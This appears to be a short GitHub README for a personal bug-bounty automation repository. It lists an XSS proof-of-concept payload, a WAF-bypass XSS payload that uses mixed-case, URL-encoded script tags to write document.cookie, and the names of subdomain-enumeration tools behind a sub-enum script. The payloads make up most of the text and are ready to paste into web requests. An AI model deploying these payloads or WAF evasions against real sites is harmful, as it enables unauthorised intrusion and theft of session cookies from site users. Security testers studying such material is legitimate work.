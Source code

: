 # basic-automations
For Personal Use Only.

# After Getting Result
Payload:

# xss.sh
```
"><img%20src=x%20onerror="alert(%27POC%20By%20Xalgord%27)"
```

WAF Bypass Payload:

```
<%2FScriPt><sCripT+class%3DXalgord>document.write(document.cookie);<%2FsCriPt>
```

# sub-enum.sh

This script uses following tools:
- subfinder
- amass
- assetfinder
- knockpy
- httpx
